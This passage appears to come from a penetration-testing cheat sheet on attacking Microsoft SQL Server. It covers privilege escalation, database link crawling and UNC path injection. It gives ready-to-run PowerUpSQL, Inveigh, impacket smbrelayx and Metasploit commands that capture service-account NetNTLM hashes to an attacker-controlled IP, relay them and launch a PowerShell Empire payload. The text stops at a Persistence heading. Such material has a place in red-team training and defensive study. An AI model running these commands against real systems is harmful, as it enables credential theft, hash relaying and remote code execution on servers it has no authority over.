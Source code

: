   ```Get-SQLFuzzDomainAccount -Instance ComputerNAme\InstanceName``` --> PowerUpSQL Blind Domain Account Enum.  

  - ```auxiliary/admin/mssql/mssql_escalate_dbowner```
  - ```auxiliary/admin/mssql/mssql_escalate_dbowner_sqi```
  - [more thorough investigation] (https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/)


*C. Automatic execution of stored procedures*

all stored procedures configured to run as soon as the sql service restarts are execute as sa.

to check all the above mentioned issues you can use: 
  - invoke-SQLAudit function of powerUpSQL
  - invoke-SQLEscalatedPriv

We can also indirectly utilize the following to achieve the same:

**1. shared service Accounts**

If we compromise a single SQL server, we will have also compromised all SQL server using that shared account.

**2. Crawling database links**

Database links are essentially a persistent connection between two servers. 

Data links can be configurated in different ways, but more often we see them use hard-coded credentials.

Tools to automating crawling: 
  - [mssql_linkcrawler] (https://www.rapid7.com/db/modules/exploit/windows/mssql/mssql_linkcrawler)
  - [powerupsql] (https://blog.netspi.com/sql-server-link-crawling-powerupsql/)

**3.UNC path injection**

UNC are used to access remote file servers, following the format \\ip\file

If we can execute one of those functions, we can force the SQL server to authenticate to us and we can capture the sql service accounts NETNTLM password hash.

We can automate process with:

  - Get-SQLServiceAccountPwHashes script of PowerUpSQL
  - [Inveigh] (https://github.com/Kevin-Robertson/Inveigh)
  
  - Example sql NETNTLM hash:
	- ```import-module .\PowerUpSQL.ps1```
	- ```Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1```
	- ```Import-Module C:\PowerUpSQL-master\Scripts\pending\Get-SQLServiceAccountPwHashes.ps1```
	- ```Get-SQLServiceAccountPwHashes -Verbose -TimeOut 20 -CaptureIp attacker_controlled_ip```

  - Example smb NETNTLM hash using smbrelayx (impacket) and metasploit:  
	- ```python smbrelayx.py -h sqlserverIP -c 'powershell empire launcher'```  
	- ```msf > use auxiliary/admin/mssql/mssql_ntlm_stealer```
	- ```set SMBPROXY attackerIP```  
	- ```set RHOST webappwithsqliIP```  
	- ```set GET_PATH pathtosqli```  
	- ```run```  

## Common post-exploitation activities 

**1.Persistence**

  ```